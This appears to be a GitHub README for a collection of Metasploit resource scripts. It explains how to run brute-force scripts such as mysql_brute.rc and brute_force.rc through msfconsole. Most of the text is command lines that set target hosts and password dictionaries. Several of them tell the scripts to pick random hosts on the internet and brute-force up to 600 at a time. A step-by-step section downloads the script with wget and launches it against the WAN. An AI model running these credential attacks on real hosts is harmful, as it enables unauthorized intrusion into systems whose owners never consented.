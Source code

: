 ## METASPLOIT RESOURCE FILES

<blockquote>Resource scripts provides an easy way for us to automate repetitive tasks in Metasploit. Conceptually they're just like batch scripts, they contain a set of commands that are automatically and sequentially executed when you load the script in Metasploit. You can create a resource script by chaining together a series of Metasploit console commands or by directly embedding Ruby to do things like call APIs, interact with objects in the database, modules and iterate actions.</blockquote>

![pic](http://i68.tinypic.com/21ovkfm.jpg)

<br />

**This repository contains various resource files to assiste in exploitation or metasploit database related issues.**
#### [!] [Please read the article about rc scripting here:](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/metasploit_resource_files.md#metasploit-resource-files)

<br /><br /><br />

### USING 'SETG' GLOBAL VARIABLES TO CONFIG RC SCRIPTS

![pic](http://i67.tinypic.com/2wfi88h.png)

> Many of the this brute force rc scripts are written to accept user inputs (setg global variables).<br />
> This means that users can run the resource scripts in 3 diferent ways:

- execute resource script (default).<br />
**[ Local lan scan: 192.168.1.0/24 ]**

      msfconsole -r /root/mysql_brute.rc

- instruct the resource script to scan rhosts input by attacker<br />
**[ Attacker input scan: 10.10.10.1 10.10.11.2 ]**

      msfconsole -q -x 'setg RHOSTS 10.10.10.1 10.10.11.2;resource /root/mysql_brute.rc'

- instruct the resource script to search in WAN for rhosts with service port open<br />
**[ Random scan: WAN for rhosts ]**

      msfconsole -q -x 'setg RANDOM_HOSTS true;resource /root/mysql_brute.rc'

<br /><br /><br />

> Adicionally to the described settings we can also combine diferent configurations at runtime.

- instruct the resource script to search in WAN for rhosts with service port open and limmit the search to 300 rhosts

      msfconsole -q -x 'setg RANDOM_HOSTS true;setg RANDOM 300;resource /root/mysql_brute.rc'

- instruct the resource script to use attackers dicionary file (absoluct path required)

      msfconsole -q -x 'setg USERPASS_FILE /root/dicionary.txt;resource /root/mysql_brute.rc'

- instruct the resource script to scan rhosts input by attacker, and use the attacker dicionary file 

      msfconsole -q -x 'setg RHOSTS 10.10.10.1 10.10.11.2;setg USERPASS_FILE /root/dicionary.txt;resource /root/mysql_brute.rc'

- instruct the resource script to not clean database at exit, scan WAN for rhosts and limmit search to 600 rhosts

      msfconsole -q -x 'setg CLEAN false;setg RANDOM_HOSTS true;setg RANDOM 600;resource /root/mysql_brute.rc'

<br /><br /><br />

#### FINAL NOTES (warnings):

- The msfconsole database must be empty (**clean**) at resource script execution.<br />
`msfconsole -q -x 'hosts -d;services -d;exit -y'`<br /><br />
- The best technic to use brute force scripts its to:<br />
`msfconsole -q -x 'hosts -d;services -d;resource /root/<resource_script_name>.rc`<br /><br />
- Brute force resource scripts will build one logfile in /root directory.<br />
`/root/<resource_script_name>.log`<br /><br />
- Brute force resource scripts deletes msfconsole database at exit (default).<br />
`msfconsole -q -x 'setg CLEAN false;resource /root/<resource_script_name>.rc'`<br />
**The above command instruct the rc script to not delete database at exit**<br /><br />

<br /><br /><br />

#### Step-By-Step how to run brute_force.rc script

- 1º download resource script to **/root** folder
`sudo wget https://raw.githubusercontent.com/r00t-3xp10it/resource_files/master/brute_force.rc`

- 2º start postgresql service (**local**)
`sudo service postgresql start`

- 3º clean msfconsole database before runing rc script
`sudo msfconsole -q -x 'hosts -d;services -d;exit -y'`

- 4º run brute_force.rc resource script to search hosts on WAN
`sudo msfconsole -q -x 'setg RANDOM_HOSTS true;setg RANDOM 300;resource /root/brute_force.rc'`

<br />

HINT: Brute force rc scripts requires the database to be empty, thats the reason why the script
cleans the database at exit, because at next time run if database contains any hosts, the script
will run the attacks againts database hosts (old hosts) and not the hosts found by current scans.

- 5º To populate the database with scans, just instruct the rc script to not clean db (optional)
`msfconsole -q -x 'seg CLEAN false;setg RANDOM_HOSTS true;setg RANDOM 600;resource /root/brute_force.rc'`

- 6º export database contents to database.xml local folder (optional)
`msf > db_export -f xml database.xml`

### Suspicious Shell Activity RedTeam @2019

<br />

